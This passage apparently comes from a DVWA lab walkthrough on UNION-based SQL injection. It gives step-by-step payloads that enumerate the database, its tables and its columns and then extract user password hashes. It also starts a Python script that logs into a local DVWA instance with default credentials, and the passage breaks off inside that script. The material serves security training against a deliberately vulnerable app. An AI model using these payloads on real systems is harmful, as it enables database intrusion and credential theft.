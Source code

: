 Inject:

```
1' UNION SELECT database(),2,3,4 -- 
```

This returns the name of the current DB (usually `dvwa`).

---

### Step 4 - List tables

Use:

```
1' UNION SELECT table_name,2,3,4 FROM information_schema.tables WHERE table_schema='dvwa' -- 
```

Look for a table like `users`.

---

### Step 5 - List columns in users

Inject:

```
1' UNION SELECT column_name,2,3,4 FROM information_schema.columns WHERE table_name='users' -- 
```

You’ll find columns like `user` and `password`.

---

### Step 6 - Extract user hashes

Inject:

```
1' UNION SELECT user, password, 3, 4 FROM users -- 
```

---

## 🤖 Script: `union_dump_and_crack.py`

```python
#!/usr/bin/env python3

import requests
from bs4 import BeautifulSoup

base_url = "http://localhost/dvwa/"
login_url = base_url + "login.php"
sqli_url = base_url + "vulnerabilities/sqli"
security_url = base_url + "security.php"

session = requests.Session()

# Get CSRF token from login
login_page = session.get(login_url)
soup = BeautifulSoup(login_page.text, "html.parser")
token = soup.find("input", {"name": "user_token"})["value"]

# Login
login_data = {
    "username": "admin",
    "password": "password",
    "Login": "Login",
    "user_token": token
```